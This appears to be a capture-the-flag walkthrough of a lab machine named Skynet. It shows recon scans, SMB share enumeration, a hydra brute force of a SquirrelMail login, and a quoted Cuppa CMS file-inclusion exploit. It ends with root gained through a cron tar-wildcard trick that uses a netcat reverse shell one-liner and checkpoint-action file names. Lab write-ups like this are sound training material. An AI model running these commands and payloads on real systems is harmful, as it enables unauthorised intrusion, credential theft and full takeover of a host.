


[](https://git.io/typing-svg)


[Master Cyber Security: Unlock the Secrets](https://youtu.be/A8cGX4InJU4?si=JAqzkDpNgAz1ydne)

## siberrgram starts
# Ferdi Birgül

## 1. Recon 
NMAP Scan Results:

```
# Nmap 7.80 scan initiated Fri Apr  9 10:56:36 2021 as: nmap -sV -vv -oN nmap.nmap 10.10.31.111
Nmap scan report for ip-10-10-31-111.eu-west-1.compute.internal (10.10.31.111)
Host is up, received arp-response (0.00095s latency).
Scanned at 2021-04-09 10:56:38 UTC for 11s
Not shown: 994 closed ports
Reason: 994 resets
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        syn-ack ttl 64 Dovecot pop3d
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        syn-ack ttl 64 Dovecot imapd
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 02:CF:EC:1A:E4:35 (Unknown)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr  9 10:56:50 2021 -- 1 IP address (1 host up) scanned in 13.75 seconds
```


## Gobuster Scan Results:

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.31.111 -x html -e -t 150`

```

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.31.111
[+] Threads:        150
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2021/04/09 11:14:29 Starting gobuster
===============================================================
http://10.10.31.111/admin (Status: 301)
http://10.10.31.111/css (Status: 301)
http://10.10.31.111/index.html (Status: 200)
http://10.10.31.111/js (Status: 301)
http://10.10.31.111/config (Status: 301)
http://10.10.31.111/ai (Status: 301)
http://10.10.31.111/squirrelmail (Status: 301)
===============================================================
2021/04/09 11:14:43 Finished
===============================================================
```

## SMB lookup

```
smbmap -H 10.10.125.149               
[+] Guest session       IP: 10.10.125.149:445   Name: 10.10.125.149                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
```

Connect to SMB anonymous

`smbclient \\\\IP\share`

Look for files in the anonymous share

```
cat attention.txt                                      
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

```
cat log1.txt     
terminator22596
terminator219
terminator20
terminator1989
terminator1988
cyborg007haloterminator
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```

The log files seem to have the list of possible passwords.

The gobuster dir scan have find the directory `squirrelmail` which contains the login page.

## Lets crack the password using hydra

```
hydra -l milesdyson -P log1.txt 10.10.22.141 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-10 17:49:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 31 login tries (l:1/p:31), ~2 tries per task
[DATA] attacking http-post-form://10.10.22.141:80/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.
[80][http-post-form] host: 10.10.22.141   login: milesdyson   password: cyborg007haloterminator
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-10 17:49:23
```

There you go. The mail contains the password for the milesdyson smb share.
Let get to the smb share of milesdyson.

`smbclient \\\\10.10.22.141\\milesdyson -U milesdyson`

Look for phishy files.
In the notes directory there is file named important.txt.

```
cat important.txt 

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

There we found the hidden directory in the server.
Lets have a look at it.

### Let's gobuster to find sub dir in /45kra24zxs28v3yd

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.22.141/45kra24zxs28v3yd/ -e -x html -t 150
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.22.141/45kra24zxs28v3yd/
[+] Threads:        150
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2021/04/10 07:04:42 Starting gobuster
===============================================================
http://10.10.22.141/45kra24zxs28v3yd/index.html (Status: 200)
http://10.10.22.141/45kra24zxs28v3yd/administrator (Status: 301)
===============================================================
2021/04/10 07:04:57 Finished
===============================================================
```

Go to /administrator.



Use searchsploit to find the vulnerability.
 It have PHP code injection.
 
 ```
 
  ,--^----------,--------,-----,-------^--,
  | |||||||||   `--------'     |          O .. CWH Underground Hacking Team ..
  `+---------------------------^----------|
    `\_,-------, _________________________|
      / XXXXXX /`|     /
     / XXXXXX /  `\   /
    / XXXXXX /\______(
   / XXXXXX /          
  / XXXXXX /
 (________(            
  `------'

####################################
VULNERABILITY: PHP CODE INJECTION
####################################
```

```
#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

Moreover, We could access Configuration.php source code via PHPStream 

For Example:
-----------------------------------------------------------------------------
http://target/cuppa/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
-----------------------------------------------------------------------------

Base64 Encode Output:
-----------------------------------------------------------------------------
PD9waHAgCgljbGFzcyBDb25maWd1cmF0aW9uewoJCXB1YmxpYyAkaG9zdCA9ICJsb2NhbGhvc3QiOwoJCXB1YmxpYyAkZGIgPSAiY3VwcGEiOwoJCXB1YmxpYyAkdXNlciA9ICJyb290IjsKCQlwdWJsaWMgJHBhc3N3b3JkID0gIkRiQGRtaW4iOwoJCXB1YmxpYyAkdGFibGVfcHJlZml4ID0gImN1XyI7CgkJcHVibGljICRhZG1pbmlzdHJhdG9yX3RlbXBsYXRlID0gImRlZmF1bHQiOwoJCXB1YmxpYyAkbGlzdF9saW1pdCA9IDI1OwoJCXB1YmxpYyAkdG9rZW4gPSAiT0JxSVBxbEZXZjNYIjsKCQlwdWJsaWMgJGFsbG93ZWRfZXh0ZW5zaW9ucyA9ICIqLmJtcDsgKi5jc3Y7ICouZG9jOyAqLmdpZjsgKi5pY287ICouanBnOyAqLmpwZWc7ICoub2RnOyAqLm9kcDsgKi5vZHM7ICoub2R0OyAqLnBkZjsgKi5wbmc7ICoucHB0OyAqLnN3ZjsgKi50eHQ7ICoueGNmOyAqLnhsczsgKi5kb2N4OyAqLnhsc3giOwoJCXB1YmxpYyAkdXBsb2FkX2RlZmF1bHRfcGF0aCA9ICJtZWRpYS91cGxvYWRzRmlsZXMiOwoJCXB1YmxpYyAkbWF4aW11bV9maWxlX3NpemUgPSAiNTI0Mjg4MCI7CgkJcHVibGljICRzZWN1cmVfbG9naW4gPSAwOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luX3ZhbHVlID0gIiI7CgkJcHVibGljICRzZWN1cmVfbG9naW5fcmVkaXJlY3QgPSAiIjsKCX0gCj8+
-----------------------------------------------------------------------------
```

Grab the reverse shell php exploit code.
Deploy python http server and listen on the port used in php.
Refer below image.


Use `python -c 'import pty;pty.spawn("/bin/bash")'` this command to get stable shell.

Got the user flag???

## Next Privilege Escallation 

`cat /etc/crontab` 
Look for cron jobs.

```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

It is clear that backup.sh is called every minute.
[Wild Card in Linux](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/) clearly explains this vulnerability.

```
cd /var/www/html
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip> 1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

Start netcat to listener.
 Wait for script to run the command after which remote shell is gained with root privileges
 
 ```
 nc -nvlp 5555                                                                                              1 ⨯
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 10.10.22.141.
Ncat: Connection from 10.10.22.141:56772.
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# pwd
/var/www/html
# python -c 'import pty;pty.spawn("/bin/bash")'
root@skynet:/var/www/html# cd
cd
root@skynet:~# ls
ls
root.txt
root@skynet:~# cat root.txt
cat root.txt
3f0372db24753accc7179a282cd6a949
root@skynet:~# 
```

Hurray!!! Got the shell.


